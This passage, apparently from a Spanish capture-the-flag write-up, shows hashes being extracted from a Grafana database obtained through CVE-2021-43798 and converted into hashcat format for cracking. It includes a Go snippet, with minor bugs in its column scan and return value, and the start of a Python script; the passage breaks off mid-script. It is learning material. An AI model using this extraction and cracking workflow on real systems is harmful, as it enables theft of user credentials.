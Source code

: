 - Ahora vamos a abrir él **.db** para inspeccionarlo.

```bash
➜  content sqlitebrowser grafana.db
```

- Vemos los hashes de 2 usuarios.

<p align="center">
<img src="https://i.imgur.com/9w7FxF9.png">
</p>

- Los **Hashes** usan **PBKDF2-HMAC-SHA256** <https://github.com/iamaldi/grafana2hashcat/blob/main/README.md>.

<p align="center">
<img src="https://i.imgur.com/NX58ccV.png">
</p>

- Pero aun así podemos crackearlos con **Hashcat** <https://vulncheck.com/blog/grafana-cve-2021-43798>, solamente necesitamos transformar los **hashes**.

- Nos dan un script de **go** para generar un formato de hash correcto.

```bash
// grab the usernames, passwords and salts from the downloaded db
rows, err := db.Query("select email,password,salt,is_admin from user")
if err != nil {
    return
}
defer rows.Close()

for rows.Next() {
    var email string
    var password string
    var salt string
    err = rows.Scan(&email, &password, &salt)
    if err != nil {
     return false
    }

    decoded_hash, _ := hex.DecodeString(password)
    hash64 := b64.StdEncoding.EncodeToString([]byte(decoded_hash))
    salt64 := b64.StdEncoding.EncodeToString([]byte(salt))
    _, _ = hash_file.WriteString("sha256:10000:" + salt64 + ":" + hash64 + "\n")
}
```

- Pero podemos crear un script en **Python3** que haga lo mismo.

```bash
➜  exploits cat gethash.py
#!/usr/bin/env python3

import sqlite3
import base64
import hashlib

# Nos conectamos
conn = sqlite3.connect('grafana.db')
cursor = conn.cursor()

# Filtramos directamente por la data que nos interesa
cursor.execute("SELECT email, password, salt, is_admin FROM user")

# Obtenemos todas las filas
rows = cursor.fetchall()

```